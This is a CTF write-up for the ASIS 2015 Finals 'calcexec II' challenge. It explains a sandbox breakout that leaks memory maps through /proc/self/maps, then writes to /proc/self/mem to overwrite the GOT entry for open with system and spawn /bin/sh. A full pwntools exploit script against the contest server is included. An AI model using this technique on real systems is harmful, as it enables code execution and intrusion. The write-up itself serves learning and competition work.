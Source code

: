 ```yaml
---
layout: post
title: "ASIS 2015 Finals: calcexec II (pwn250)"
modified: 2015-10-14
tags: asis asis2015finals .net mono pwn
---
```


The second part of the challenge uses an already known technique to break out from "sandboxes".

Namely: overwriting the contents of the /proc/self/mem. This is possible because the calculator contains two methods: READ and WRITE with which we can read and write arbitrary files. (Note: I tried to read "flag2", but unfortunately it did not exist... :))

So I leaked the memory mappings with reading the /proc/self/maps file. Then I overwrote the "open" call's GOT entry to system. And simply called the READ call again with /bin/sh which instead of opening the file, opened a shell for me (btw I tried to call "sh" first, but it turned out it calls a stat function first, and "sh" did not work, but "/bin/sh" did the trick).

Also there were some character encoding problem (it probably tried to interpret the binary input as UTF8 characters), so I only overwrote 3 bytes instead of the full address and the exploit is not reliable: only works if ASLR gives an address with characters which are lower than 0x80.

After calling an "ls" it turned out the flag was in the flag2-03dae19b720939043d87fbf67342c2e8.txt file.

{% highlight text %}
And the flag was: ASIS{9009eeab9869a8098acd7bb19f079230}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re
from time import sleep

for i in xrange(10):
    print "Try #%d" % (i + 1)
    p = remote('185.82.202.146', 1337)
    #p = process('./start.sh', shell=True)
    p.recvline()
    p.recvline()

    p.send('authenticate\n')
    p.send(open('fakeCa.crt').read()+'\n')

    p.send('authenticate\n')
    p.send(open('fakeUserCert.crt').read()+'\n')

    p.send('flag\n')
    p.recvuntil('> ')
    print '[!] FLAG 1 = %s' % p.recvline().strip()

    p.send('read("/proc/self/maps",0,20000)\n')
    p.recvuntil('> ')
    maps = p.recvuntil('\x00')
    p.recvuntil('\n\n')
    #print "maps =", maps

    libcBase = int(re.search('([a-z0-9]+).*?libc-2.19.so', maps).group(1), 16)
    libThreadBase = int(re.search('([a-z0-9]+).*?libpthread-2.19.so', maps).group(1), 16)
    print "libThread base = 0x%016x" % libThreadBase

    systemLocal = 0x7ffff74ba230
    libThreadBaseLocal = 0x7ffff74aa000
    openGotAddr = 0x9776C8

    system = libThreadBase - libThreadBaseLocal + systemLocal
    print "system = 0x%016x" % system

    systemChars = p64(system)[0:3]
    if ord(systemChars[0]) >= 128 or ord(systemChars[1]) >= 128 or ord(systemChars[2]) >= 128:
        print "Exploit won't work, restarting..."
        p.close()
        continue
        
    p.send('write("/proc/self/mem",'+str(openGotAddr)+',"'+systemChars+'")\nread("/bin/sh",0,1)\n')
    p.recvline()
    p.recvline()

    time.sleep(0.4)
    p.send('ls && echo LSEND\n')
    print "ls result = %s" % p.recvuntil('LSEND\n').replace('LSEND','').replace('\n', ' ').strip()

    p.send('cat flag2-03dae19b720939043d87fbf67342c2e8.txt\n')
    print "[!] FLAG 2 = %s" % p.recvline().strip()

    p.interactive()
    break
{% endhighlight %}